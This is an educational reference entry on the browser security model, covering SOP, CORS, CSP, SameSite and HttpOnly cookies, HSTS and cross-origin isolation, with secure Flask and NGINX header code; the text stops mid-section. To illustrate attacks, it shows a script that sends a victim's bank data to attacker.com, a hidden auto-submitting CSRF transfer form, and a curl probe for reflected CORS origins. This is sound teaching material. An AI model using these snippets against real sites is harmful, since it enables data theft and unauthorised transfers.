

⚡ TL;DR - The browser security model is a layered set of mechanisms that isolate web origins
from each other and protect users from malicious sites. Five layers every engineer must know:
(1) SAME-ORIGIN POLICY (SOP): the foundation. JavaScript on page.example.com CANNOT read data
from api.example.com or evil.com without explicit permission. "Origin" = scheme + domain + port.
http://example.com:80 and https://example.com:443 are DIFFERENT origins. SOP: prevents cross-origin
JavaScript reads. Does NOT prevent cross-origin form submissions (CSRF vector) or cross-origin
image/script includes (used for Spectre, SSRF via browser-based oracles). (2) CORS (Cross-Origin
Resource Sharing): the mechanism for APIs to explicitly allow cross-origin requests from specific
origins. Configured on the server. `Access-Control-Allow-Origin: https://app.example.com`. Simple
requests (GET/POST with simple headers): sent first, CORS check on the response. Preflighted requests
(PUT/DELETE, custom headers, JSON bodies): browser sends an OPTIONS preflight before the actual
request. DANGEROUS: `Access-Control-Allow-Origin: *` with `Access-Control-Allow-Credentials: true`
is INVALID per spec but some servers misconfigure to allow it. Correct: allow specific origins, or
use no credentials with wildcard. (3) CSP (Content Security Policy): instructs the browser which
sources of scripts, styles, images are trusted. Blocks XSS: even if an attacker injects a
`<script>` tag, the browser won't execute it if the source isn't in the CSP allowlist.
`Content-Security-Policy: default-src 'self'; script-src 'self' cdn.example.com`.
(4) COOKIE SECURITY: `HttpOnly` (JavaScript cannot read the cookie), `Secure` (HTTPS only),
`SameSite=Strict` or `SameSite=Lax` (CSRF protection, prevents cookie from being sent on cross-site
requests). All three: should be set on all session and authentication cookies. (5) HSTS (HTTP
Strict Transport Security): tells the browser to ALWAYS use HTTPS for this domain.
`Strict-Transport-Security: max-age=31536000; includeSubDomains`. With HSTS preload: browsers
hardcode the domain as HTTPS-only before the first request.

---

| #135 | Category: Security | Difficulty: ★★★★ |
|:---|:---|:---|
| **Depends on:** | OWASP Top 10, Authentication, Business Logic, Insufficient Logging, CVSS Scoring, CVE + NVD, AWS Security Services, Kubernetes Security, Security Observability + SIEM, Security at Scale, ISO 27001, Chaos Engineering, Privilege Escalation, Zero Trust Introduction, Red/Blue/Purple Team, Zero Trust Enterprise, DevSecOps Pipeline, Security Champions, Enterprise Security Architecture, Secret Rotation, Security Governance, Threat Intelligence, CSIRT Design, Security Metrics, Supply Chain Security, Platform Security Engineering, Multi-Cloud Security, Build vs Buy, Security ADR, SIEM Architecture, SSDLC, TLS 1.3, OAuth 2.0 + OIDC, OWASP Methodology, Secure by Design, Formal Verification | |
| **Used by:** | Remaining SEC-136 through SEC-144 entries | |
| **Related:** | All preceding and remaining SEC entries | |

---

### 🔥 The Problem This Solves

**WHY THE BROWSER SECURITY MODEL EXISTS:**

```
WITHOUT THE SAME-ORIGIN POLICY:

  User: visits http://malicious.com while logged into http://mybank.com.
  malicious.com JavaScript:

  // Attacker's JavaScript on malicious.com:
  fetch('https://mybank.com/api/account-balance')
    .then(r => r.json())
    .then(data => {
      // Send account balance to attacker's server
      fetch('https://attacker.com/collect', {
        method: 'POST',
        body: JSON.stringify(data)
      });
    });

  WITHOUT SOP: this works. The browser: sends the user's mybank.com session cookies
  with the request (because the browser automatically attaches cookies). The attacker:
  receives the user's account balance. Then: initiates a transfer. User: never knew.
  
  WITH SOP: this fails.
  The fetch to https://mybank.com: is a cross-origin request (from malicious.com).
  SOP: the browser sends the request, but BLOCKS malicious.com JavaScript from
  READING the response. The attacker: does not receive the data.
  
  Note: SOP blocks READING. The request IS sent (CSRF vector - see CSRF below).
  SOP prevents the attacker from reading the account balance.
  It does NOT prevent a malicious form submission that initiates a transfer.
  That's why CSRF tokens and SameSite cookies exist: to prevent the malicious send.

CSRF WITHOUT SAMESITE COOKIES:

  User: logs into mybank.com. Session cookie: set.
  User: visits evil.com while still logged in.
  
  evil.com HTML:
  <form action="https://mybank.com/transfer" method="POST" style="display:none">
    <input name="to" value="attacker-account">
    <input name="amount" value="1000">
  </form>
  <script>document.forms[0].submit();</script>
  
  WITHOUT CSRF PROTECTION:
  Browser: submits the form to mybank.com.
  Browser: attaches the mybank.com session cookie (because the request goes to mybank.com).
  mybank.com: sees a valid session. Executes the transfer. User: lost $1000.
  User: never saw the form. It was hidden.
  
  WITH SameSite=Strict:
  The form submits to mybank.com (cross-site request from evil.com).
  Browser: does NOT attach the mybank.com cookie to cross-site form submissions.
  mybank.com: no session cookie → user not authenticated → transfer rejected.
  CSRF attack: blocked by the browser, not the server.
```

---

### 📘 Textbook Definition

**Same-Origin Policy (SOP):** A browser security mechanism that restricts JavaScript on a
web page from reading data from a different origin. Origin: scheme (http/https) + domain + port.
`https://example.com:443` and `http://example.com:80` are different origins (different scheme and port).
SOP prevents: cross-origin JavaScript reads. Does not prevent: cross-origin includes (script, img, link tags),
cross-origin writes (form submissions), or cross-origin navigations.

**CORS (Cross-Origin Resource Sharing):** A mechanism that allows servers to declare which origins
may read their responses. The server: includes `Access-Control-Allow-Origin: https://app.example.com`
in the response. The browser: allows the requesting origin's JavaScript to read the response
if the header matches. Without CORS headers: SOP blocks the read. CORS: controlled by the SERVER,
enforced by the BROWSER. A server without CORS headers: SOP still applies (no access from other origins).

**CSP (Content Security Policy):** An HTTP response header that instructs the browser which sources
of content (scripts, styles, images, frames) are trusted. The browser: refuses to load content from
sources not listed in the CSP. Mitigates: XSS (injected scripts from unauthorized sources are blocked),
data injection, clickjacking (via `frame-ancestors` directive). The server: sends the policy.
The browser: enforces it.

**HttpOnly cookie attribute:** Marks a cookie as inaccessible to JavaScript (`document.cookie`).
Only sent by the browser in HTTP requests. Mitigates: session token theft via XSS (XSS can read
non-HttpOnly cookies). Does NOT prevent: CSRF (the cookie is still sent on requests).

**SameSite cookie attribute:** Controls when the browser sends a cookie with cross-site requests.
`SameSite=Strict`: cookie only sent for same-site requests (not for cross-site navigations,
form submissions, or AJAX). `SameSite=Lax`: cookie sent for cross-site top-level navigations (clicking a link)
but not for cross-site AJAX or form submissions. `SameSite=None; Secure`: cookie sent for all
cross-site requests (requires HTTPS). Default in modern browsers: `Lax` (Chrome 80+, Feb 2020).

**HSTS (HTTP Strict Transport Security):** An HTTP response header that instructs the browser to
always use HTTPS for a domain. `Strict-Transport-Security: max-age=31536000; includeSubDomains`.
After receiving HSTS: the browser never makes HTTP requests to that domain (redirects itself before
the request is sent). Prevents: SSL stripping attacks, HTTP MITM on initial connection.

**Clickjacking:** An attack where a victim is tricked into clicking on an element of a site they don't
see, because it's hidden under a transparent iframe of the target site. Prevention: `X-Frame-Options: DENY`
(cannot be framed at all) or `Content-Security-Policy: frame-ancestors 'none'` (modern equivalent).

---

### ⏱️ Understand It in 30 Seconds

**One line:**
The browser security model is a set of layered defenses - SOP (blocks cross-origin reads), CORS
(controlled API access from specific origins), CSP (blocks unauthorized script sources), SameSite
cookies (blocks CSRF), and HSTS (forces HTTPS) - each addressing a specific class of web attack,
and each configured by the server but enforced by the browser.

**One analogy:**
> The browser security model is an apartment building with multiple security layers.
>
> Same-Origin Policy = the rule that residents can only read their own mail.
> You cannot walk into apartment 4B and read their mail, even if the mail slot is in the lobby.
> JavaScript from evil.com: cannot read data from mybank.com. Different apartments (origins).
>
> CORS = an authorized mail forwarding service.
> Apartment 4B explicitly tells the mail room: "Forward my mail to apartment 2A."
> (API server tells the browser: "Allow app.example.com to read my responses.")
> Without that explicit instruction: no mail forwarding (no cross-origin reads).
>
> CSP = the building's contractor list.
> Only contractors explicitly approved by the building management can do work in any apartment.
> (Only script sources explicitly listed in CSP can execute in the browser.)
> If a stranger shows up claiming to be a plumber but isn't on the approved list: they're refused.
> (Injected XSS scripts: refused by the browser if not in the CSP allowlist.)
>
> SameSite Cookies = a rule that your apartment key ONLY works when you're walking from your own floor.
> If someone tricks you into going to a different floor and tries to use your key from there:
> the lock doesn't accept it. (Cookie not sent for cross-site requests: CSRF blocked.)
>
> HSTS = a standing instruction: "I ONLY accept certified mail (HTTPS), never uncertified (HTTP)."
> Even if someone intercepts the first piece of mail and claims you accept HTTP:
> the browser ignores them and uses HTTPS anyway (after the first HSTS response is received).

---

### 🔩 First Principles Explanation

**SOP, CORS, CSP, CSRF, and Clickjacking - the attack and the defense:**

```
SAME-ORIGIN POLICY - WHAT IT PROTECTS AND WHAT IT DOESN'T:

  PROTECTS (blocks cross-origin reads):
  - JavaScript fetch/XHR from evil.com CANNOT READ mybank.com responses.
  - JavaScript from evil.com CANNOT READ document content of a mybank.com frame.
  - JavaScript from evil.com CANNOT access cookies, localStorage of mybank.com.
  
  DOES NOT PROTECT (cross-origin sends are ALLOWED by SOP):
  - Form submissions across origins: evil.com form → POST to mybank.com → SENT.
    The mybank.com session cookie: attached by the browser. Request succeeds.
    Response: not readable by evil.com (SOP blocks the read). But the write happened.
    This is the CSRF attack vector.
  - Image includes:  → sent to mybank.com.
    Attacker: cannot read the image contents. But: the request was made.
    If the endpoint has side effects (logging the user's balance check): side effect executed.
  - Script includes: <script src="https://mybank.com/utils.js"> → executed.
    If mybank.com's JavaScript is malicious (supply chain attack): it runs.
  
  WHY SOP DOESN'T BLOCK SENDS:
  Form submissions: predate the web security model. Forms sent data cross-origin by design
  (e.g., a search form on one site submitting to another). Breaking this would break the web.
  The web was designed with the assumption that reads are the security-sensitive operation.
  CSRF: exploits the assumption that all cross-origin form submissions are intentional.

CORS CONFIGURATION:

  CORRECT CORS for a public API with no credentials:
  Access-Control-Allow-Origin: *
  (Any origin can read the response. No credentials attached. Safe for public data.)
  
  CORRECT CORS for an API that serves user-specific data:
  Access-Control-Allow-Origin: https://app.example.com
  Access-Control-Allow-Credentials: true
  Vary: Origin  (cache must vary per origin)
  (Only app.example.com can read the response with credentials.)
  
  WRONG CORS (allows credential theft from any origin):
  Access-Control-Allow-Origin: *
  Access-Control-Allow-Credentials: true
  (Per spec: browsers REJECT this combination.
   But: some misconfigured servers attempt it. Attackers: exploit permissive CORS logic.)
  
  WRONG CORS (reflects request Origin header without validation):
  # Server code:
  response.headers['Access-Control-Allow-Origin'] = request.headers.get('Origin', '*')
  response.headers['Access-Control-Allow-Credentials'] = 'true'
  (This: reflects ANY origin. Any attacker can make cross-origin credentialed requests.
   Effectively: no same-origin policy for this endpoint.)
  
  CORRECT: only allow origins that are actually trusted:
  TRUSTED_ORIGINS = {'https://app.example.com', 'https://admin.example.com'}
  origin = request.headers.get('Origin', '')
  if origin in TRUSTED_ORIGINS:
      response.headers['Access-Control-Allow-Origin'] = origin
      response.headers['Access-Control-Allow-Credentials'] = 'true'
      response.headers['Vary'] = 'Origin'

CSP LEVELS AND EFFECTIVENESS:

  No CSP: XSS is unrestricted. An injected script executes fully.
  
  CSP Level 1 (allowlist-based): moderate protection.
  Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.example.com
  XSS: must inject a script from a trusted source. If all CDN resources are trusted:
  an XSS that loads evil.example.com: blocked. But: XSS that loads a legitimate CDN script
  with an attacker-controlled parameter might still execute.
  
  CSP Level 2 (nonce-based): strong protection.
  Content-Security-Policy: script-src 'nonce-rAnd0m9473829'
  HTML response:
  <script nonce="rAnd0m9473829" src="/app.js"></script>
  
  The nonce: random, per-response. Scripts: only execute if they have the correct nonce.
  An injected <script>evil()</script> without the nonce: BLOCKED by the browser.
  Even inline script injection: blocked (the injected script doesn't have the nonce).
  The nonce: must be cryptographically random (not predictable). Regenerated per response.
  
  CSP Level 3 (hash-based): strict but inflexible.
  Content-Security-Policy: script-src 'sha256-base64(SHA256(script_content))'
  Only scripts whose SHA-256 hash matches: execute.
  Injected scripts: never match (different content → different hash).
  Limitation: every script change requires a new hash in the CSP header.
```

---

### 🧪 Thought Experiment

**SCENARIO: Securing a Single-Page Application (React/Vue/Angular) with full browser security model:**

```
APP: FinTech SPA at https://app.example.com
API: REST API at https://api.example.com

SECURITY REQUIREMENTS:
  - No XSS execution even if input sanitization fails (defense in depth).
  - No CSRF attacks against the API.
  - No session token theft via XSS.
  - No clickjacking.
  - Always HTTPS.
  - Minimal information leakage on errors.

IMPLEMENTATION:

  1. CORS on api.example.com:
  Access-Control-Allow-Origin: https://app.example.com
  Access-Control-Allow-Credentials: true
  Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS
  Access-Control-Allow-Headers: Content-Type, Authorization
  Vary: Origin
  
  Rationale: app.example.com is the only origin that should read the API responses.
  No wildcard (would allow any origin to read user data with credentials).

  2. CSP on app.example.com (nonce-based):
  Content-Security-Policy:
    default-src 'self';
    script-src 'self' 'nonce-{PER_REQUEST_RANDOM}';
    style-src 'self' https://fonts.googleapis.com;
    img-src 'self' data: https://cdn.example.com;
    connect-src 'self' https://api.example.com;
    frame-ancestors 'none';  # Prevents clickjacking
    base-uri 'self';          # Prevents base tag injection
    form-action 'self';       # Prevents form hijacking
  
  Rationale: even if XSS injects a <script> tag, the browser blocks it
  (no nonce, not in allowlist). Only the application's own scripts execute.
  frame-ancestors 'none': clickjacking impossible (no framing allowed).

  3. SESSION COOKIES:
  Set-Cookie: session_id=...; HttpOnly; Secure; SameSite=Strict; Path=/
  
  HttpOnly: XSS cannot read the session token (document.cookie is empty for HttpOnly cookies).
  Secure: only sent over HTTPS.
  SameSite=Strict: not sent on cross-site requests (CSRF blocked even without tokens).
  
  Note: if the SPA stores the access token in memory (not in a cookie):
  XSS steals the in-memory token if it executes. CSP + nonce: prevents XSS execution.
  Defense in depth: CSP prevents XSS, and even if XSS executes, HttpOnly cookies are safe.

  4. HSTS:
  Strict-Transport-Security: max-age=63072000; includeSubDomains; preload
  
  max-age: 2 years. includeSubDomains: all subdomains use HTTPS.
  preload: submit to Chrome's HSTS preload list (browser hardcodes HTTPS before first request).
  Prevents: SSL stripping attacks on first visit.

  5. ADDITIONAL HEADERS:
  X-Content-Type-Options: nosniff
  (Browser: don't MIME-sniff content type. Prevents: treating a text file as JavaScript.)
  
  Referrer-Policy: strict-origin-when-cross-origin
  (Referer header: sent for same-origin, but only origin (not full path) for cross-origin.
  Prevents: path disclosure in Referer headers to third-party resources.)
  
  Permissions-Policy: geolocation=(), camera=(), microphone=()
  (Disable browser APIs the app doesn't use. Attack surface reduction.)

RESULT: SecurityHeaders.com grade A+.
CSP: strong (nonce-based, no 'unsafe-inline', no 'unsafe-eval').
HSTS: enabled with preload.
CORS: restricted to the SPA's origin.
CSRF: prevented by SameSite=Strict.
XSS: mitigated by CSP (defense in depth beyond input sanitization).
Clickjacking: prevented by frame-ancestors 'none'.
```

---

### 🧠 Mental Model / Analogy

> Browser security model is a "trust but verify" system where the BROWSER is the neutral enforcer.
>
> The key insight: the browser is not the user's agent in the traditional sense.
> The browser: enforces rules that protect the user from malicious WEBSITES.
> The browser: also enforces rules that protect SERVERS from malicious websites.
>
> SOP: protects the USER from malicious websites reading their data from trusted sites.
> CORS: protects SERVERS from being read by unauthorized web applications.
> CSP: protects the PAGE from injected malicious scripts.
> SameSite: protects SERVERS from cross-site requests using the user's credentials.
> HSTS: protects the USER from SSL stripping attacks.
>
> The browser: is simultaneously enforcing policies set by MULTIPLE parties:
> - SOP: a browser-internal policy (no configuration needed by servers).
> - CORS: server-configured policy (server decides which origins can read it).
> - CSP: server-configured policy (server decides which scripts can execute).
> - SameSite: server-configured cookie policy (server decides cross-site behavior).
> - HSTS: server-configured transport policy (server declares HTTPS requirement).
>
> The browser: the neutral enforcement point.
> Malicious website: cannot override CORS, CSP, SameSite, or HSTS that the server set.
> Malicious website: cannot disable SOP (it's enforced by the browser, not the page).
>
> This architecture: the key to understanding why web security depends on BOTH
> the server (setting the right headers) AND the browser (enforcing them).
> A server that doesn't set CORS/CSP/SameSite/HSTS headers: not exploited by the browser.
> But: also not protected by the browser. The browser: enforces only what it's told to enforce.
> The server: must instruct the browser. The browser: must obey the instructions.
> Neither alone: sufficient. Both together: a coherent security model.

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
When you visit multiple websites in the same browser, they run in isolated "boxes." JavaScript on evil.com cannot read your banking website's data because the browser enforces a rule called the "Same-Origin Policy" - each website is a different "origin" (a combination of the domain, the security protocol, and the port number) and can only read its own data. Additional protection comes from security "instructions" that websites send to the browser: "Only run scripts from these sources" (CSP), "Don't send my session cookie to other sites" (SameSite), "Always use HTTPS" (HSTS). The browser: follows these instructions, protecting the user even when visiting malicious websites.

**Level 2 - How to use it (junior developer):**
Four headers every web application must send: (1) `Content-Security-Policy`: at minimum: `default-src 'self'; script-src 'self'`. This prevents XSS from loading scripts from attacker-controlled domains. For React/Vue/Angular SPAs: use nonce-based CSP with your bundler. (2) `Strict-Transport-Security: max-age=31536000; includeSubDomains`. Enables HSTS. Never go back to HTTP. (3) `X-Content-Type-Options: nosniff`. Prevents MIME sniffing. One line, always include. (4) `X-Frame-Options: DENY` or CSP `frame-ancestors 'none'`. Prevents clickjacking. For cookies: always set `HttpOnly; Secure; SameSite=Strict` on session/auth cookies. Test your headers: https://securityheaders.com (free, checks all headers, grades A+ to F).

**Level 3 - How it works (mid-level engineer):**
Understanding CORS preflighting: browsers send an OPTIONS preflight request before a cross-origin request if the request is "non-simple" (non-simple = uses PUT/DELETE/PATCH, has custom headers like Authorization, or has a Content-Type of application/json). The preflight: `OPTIONS /api/data` with `Access-Control-Request-Method: POST` and `Access-Control-Request-Headers: Content-Type, Authorization`. The server: must respond with matching `Access-Control-Allow-Methods` and `Access-Control-Allow-Headers`. If the preflight fails: the browser does not send the actual request. The preflight: the CORS check mechanism. Practical implication: every new request type your SPA makes → test whether the CORS headers cover it. Missing a custom header in `Access-Control-Allow-Headers`: the SPA gets a CORS error that looks like a network failure, not a CORS error, confusing debugging.

**Level 4 - Why it was designed this way (senior/staff):**
The fundamental tension in browser security: the web was designed for document sharing (HTML links, forms, images) across origins. SOP was added later (Netscape Navigator 2.0, 1995) when JavaScript was introduced and the same-origin policy became necessary. The result: SOP is not uniformly applied. Cross-origin form submissions (CSRF vector): allowed (forms predate SOP). Cross-origin image/script/style includes: allowed (required for CDN usage). Only cross-origin JavaScript READS are blocked. This selective application: creates the complex attack surface. CSRF exploits the "forms are allowed" exception. Spectre exploits timing side channels in cross-origin resource loading. CSS injection exploits style includes. These are not bugs in SOP - they're inherent tensions between the web's design for document sharing and SOP's goal of isolation. CORS, CSRF tokens, SameSite, and CSP: each addressing one specific exception to SOP's coverage. Understanding which exception each addresses: the key to understanding why ALL of them are needed together.

**Level 5 - Mastery (distinguished engineer):**
The Spectre vulnerability (2018) and the browser security model: Spectre revealed that cross-origin resource loading - which SOP allows - creates a timing side channel. Even if JavaScript cannot READ a cross-origin resource, the act of LOADING it affects the browser's CPU cache state. Spectre-based attacks: read the CPU cache state to infer the content of loaded cross-origin resources. The browser: loaded the resource (SOP allows loading, not just reading). The Spectre attack: reads the content through timing. This revealed that the SOP model (allow loading, block JavaScript read access) was insufficient against microarchitectural attacks. The browser response: COOP (Cross-Origin Opener Policy) and COEP (Cross-Origin Embedder Policy). Together: they enable "cross-origin isolation" - a browser state where SharedArrayBuffer and high-resolution timers are available, and cross-origin resources are not in the same browsing context group. In cross-origin isolation: Spectre attacks are mitigated because cross-origin resources are kept in separate processes (site isolation). The implication: cross-origin isolation is now required for any web application that uses SharedArrayBuffer or high-resolution timers (needed for WebAssembly, high-performance web applications). Enabling cross-origin isolation: requires setting `Cross-Origin-Opener-Policy: same-origin` + `Cross-Origin-Embedder-Policy: require-corp` + ensuring all loaded cross-origin resources send `Cross-Origin-Resource-Policy: cross-origin` (if they want to be loadable). This adds a new layer to the browser security model: not just "JavaScript can't read it" but "the cross-origin resource is in a separate process."

---

### ⚙️ How It Works (Mechanism)

```
BROWSER SECURITY MODEL - LAYERED PROTECTION:

  ATTACK VECTOR          PROTECTION LAYER           HEADER/MECHANISM
  ─────────────────────────────────────────────────────────────────
  XSS script injection   CSP                        Content-Security-Policy
  XSS cookie theft       HttpOnly cookie            Set-Cookie: HttpOnly
  CSRF form submission   SameSite cookie            Set-Cookie: SameSite=Strict
  CSRF via XHR           CORS + CSRF token          Access-Control-Allow-Origin
  Clickjacking           X-Frame-Options / CSP      X-Frame-Options: DENY
                                                     CSP: frame-ancestors 'none'
  SSL stripping MITM     HSTS                       Strict-Transport-Security
  MIME sniffing          X-Content-Type-Options     X-Content-Type-Options: nosniff
  Cross-origin reads     Same-Origin Policy         Browser-enforced (no config needed)
  Cross-origin isolation COOP + COEP                Cross-Origin-Opener-Policy
                                                     Cross-Origin-Embedder-Policy
```



---

### 💻 Code Example

**Secure HTTP security headers in Python (Flask/FastAPI) and NGINX:**

```python
# security_headers.py
# Flask middleware to add all required security headers.
# Demonstrates: correct CORS, CSP (nonce-based), HSTS, cookie security.

import secrets
from flask import Flask, request, after_this_request, g
from functools import wraps

app = Flask(__name__)

TRUSTED_ORIGINS = {
    "https://app.example.com",
    "https://admin.example.com"
}

def add_security_headers(response):
    """
    Add comprehensive security headers to every response.
    These headers instruct the browser on security policies.
    """
    origin = request.headers.get("Origin", "")
    
    # CORS: allow only trusted origins (not wildcard with credentials)
    # BAD: response.headers['Access-Control-Allow-Origin'] = '*'
    # GOOD: only allow specific trusted origins
    if origin in TRUSTED_ORIGINS:
        response.headers["Access-Control-Allow-Origin"] = origin
        response.headers["Access-Control-Allow-Credentials"] = "true"
        response.headers["Vary"] = "Origin"
    
    # HSTS: browser must use HTTPS for 2 years, all subdomains
    response.headers["Strict-Transport-Security"] = (
        "max-age=63072000; includeSubDomains; preload"
    )
    
    # Prevent MIME sniffing (one line, always include)
    response.headers["X-Content-Type-Options"] = "nosniff"
    
    # Prevent clickjacking (also covered by CSP frame-ancestors below)
    response.headers["X-Frame-Options"] = "DENY"
    
    # Referrer: send origin only to cross-origin requests (not full path)
    response.headers["Referrer-Policy"] = "strict-origin-when-cross-origin"
    
    # Disable browser APIs not needed by this application
    response.headers["Permissions-Policy"] = (
        "geolocation=(), camera=(), microphone=(), payment=()"
    )
    
    # CSP (nonce-based for HTML responses, no nonce for API responses)
    if response.content_type and "text/html" in response.content_type:
        nonce = g.get("csp_nonce", "")
        response.headers["Content-Security-Policy"] = (
            f"default-src 'self'; "
            f"script-src 'self' 'nonce-{nonce}'; "  # Only scripts with this nonce execute
            f"style-src 'self' https://fonts.googleapis.com; "
            f"img-src 'self' data: https://cdn.example.com; "
            f"connect-src 'self' https://api.example.com; "
            f"font-src 'self' https://fonts.gstatic.com; "
            f"frame-ancestors 'none'; "  # Prevent clickjacking
            f"base-uri 'self'; "          # Prevent base tag injection
            f"form-action 'self'; "       # Prevent form hijacking
            f"upgrade-insecure-requests"  # Upgrade HTTP subrequests to HTTPS
        )
    else:
        # For API responses (JSON): simpler CSP (no script execution needed)
        response.headers["Content-Security-Policy"] = "default-src 'none'"
    
    return response


@app.before_request
def generate_csp_nonce():
    """Generate a cryptographically random nonce per request for CSP."""
    # 16 bytes = 128 bits of entropy. Base64-encoded: 22 characters. Unpredictable.
    g.csp_nonce = secrets.token_urlsafe(16)


@app.after_request
def apply_security_headers(response):
    return add_security_headers(response)


def set_secure_session_cookie(response, session_id: str) -> None:
    """
    Set a session cookie with all security attributes.
    
    BAD: response.set_cookie('session', session_id)  # No security attributes
    GOOD: all four security attributes set explicitly.
    """
    response.set_cookie(
        key="session_id",
        value=session_id,
        httponly=True,       # JS cannot read (document.cookie doesn't include it)
        secure=True,         # HTTPS only (never sent over HTTP)
        samesite="Strict",   # Not sent on cross-site requests (CSRF protection)
        path="/",            # Valid for all paths
        max_age=3600,        # 1 hour expiry
        # domain: NOT set (defaults to exact domain, not including subdomains)
        # Setting domain to ".example.com" makes the cookie accessible to
        # ALL subdomains (evil.example.com could access it if subdomain is compromised)
    )


# NGINX CONFIGURATION EQUIVALENT:
NGINX_SECURITY_HEADERS = """
server {
    listen 443 ssl http2;
    server_name app.example.com;
    
    # Security headers for all responses
    add_header Strict-Transport-Security
        "max-age=63072000; includeSubDomains; preload" always;
    add_header X-Content-Type-Options "nosniff" always;
    add_header X-Frame-Options "DENY" always;
    add_header Referrer-Policy "strict-origin-when-cross-origin" always;
    add_header Permissions-Policy
        "geolocation=(), camera=(), microphone=()" always;
    
    # CSP: set by the application (nonce-based; NGINX cannot generate nonces per request)
    # For static CSP without nonces:
    add_header Content-Security-Policy
        "default-src 'self'; script-src 'self'; frame-ancestors 'none'" always;
    
    # Note: CORS headers must be set by the application (origin-specific logic)
    # NGINX: can be used for simple wildcard CORS:
    # add_header Access-Control-Allow-Origin "*" always;
    # But for credentialed CORS: always use application-level CORS logic.
}
"""
```

---

### ⚖️ Comparison Table

| Security Mechanism | Prevents | Not Prevented By | Configuration |
|:---|:---|:---|:---|
| **Same-Origin Policy** | Cross-origin JS reads | Cross-origin sends (forms, images) | Browser-enforced |
| **CORS** | Unauthorized cross-origin API reads | Requests being sent (SOP still applies) | Server response headers |
| **CSP** | Injected script execution, data injection | User clicking on malicious links | Server response headers |
| **SameSite=Strict** | CSRF via cross-site requests | Session hijacking via XSS | Set-Cookie attribute |
| **HttpOnly** | Session token theft via XSS | CSRF (cookie still sent on same-site requests) | Set-Cookie attribute |
| **HSTS** | SSL stripping, HTTP MITM after first HTTPS visit | First visit (if not in preload list) | Response header |
| **X-Frame-Options / CSP frame-ancestors** | Clickjacking | Direct XSS attacks | Response header |

---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| "CORS prevents unauthorized API access." | CORS prevents cross-origin JavaScript from READING API responses. It does NOT prevent: (1) the request being sent (the browser sends the request, blocks only the read if CORS fails). (2) server-side state changes from cross-site form submissions (CSRF). (3) non-browser API clients (curl, Postman, mobile apps) - these don't enforce SOP or CORS. A CORS-protected API: still needs authentication and authorization. CORS protects against web-based cross-origin reads. It is not an authentication mechanism. An API with `Access-Control-Allow-Origin: *` but no authentication: any website (and any non-browser client) can read its data. CORS + authentication: needed together. CORS alone: not sufficient. |
| "HttpOnly cookies prevent XSS attacks." | HttpOnly cookies prevent XSS from STEALING the session token via `document.cookie`. But XSS: can still do much more. XSS can: (1) make authenticated requests using the session cookie (the cookie is automatically attached to requests from the same origin, even by XSS-injected JavaScript). (2) read page content (account numbers, personal data visible on the current page). (3) modify the DOM (display fake login forms, redirect users). (4) read non-HttpOnly cookies, localStorage, sessionStorage. HttpOnly prevents ONE specific attack (cookie theft via XSS). XSS is still a critical vulnerability even with HttpOnly cookies. CSP is the defense that addresses XSS at a more fundamental level (prevents the script from executing at all). HttpOnly + CSP: defense in depth. HttpOnly alone: insufficient protection against XSS impact. |

---

### 🚨 Failure Modes & Diagnosis

**Common web security header misconfigurations:**

```
FAILURE 1: CORS REFLECTS ORIGIN WITHOUT VALIDATION

  Symptom: Burp Suite interception shows:
  Request: Origin: https://evil.com
  Response: Access-Control-Allow-Origin: https://evil.com
             Access-Control-Allow-Credentials: true
  
  Impact: any origin can make credentialed cross-origin requests.
  Equivalent to: no same-origin policy for this API.
  
  Detection:
  curl -H "Origin: https://evil.com" \
       --cookie "session=abc123" \
       https://api.example.com/user/me -I
  
  If response includes Access-Control-Allow-Origin: https://evil.com: VULNERABLE.
  
  Fix: whitelist validation
  ALLOWED_ORIGINS = {'https://app.example.com'}
  origin = request.headers.get('Origin', '')
  if origin in ALLOWED_ORIGINS:
      # Only then: set Access-Control-Allow-Origin to this origin

FAILURE 2: CSP 'UNSAFE-INLINE' EFFECTIVELY DISABLING XSS PROTECTION

  Symptom: SecurityHeaders.com: "CSP contains 'unsafe-inline' in script-src.
  This allows inline script execution, significantly reducing XSS protection."
  
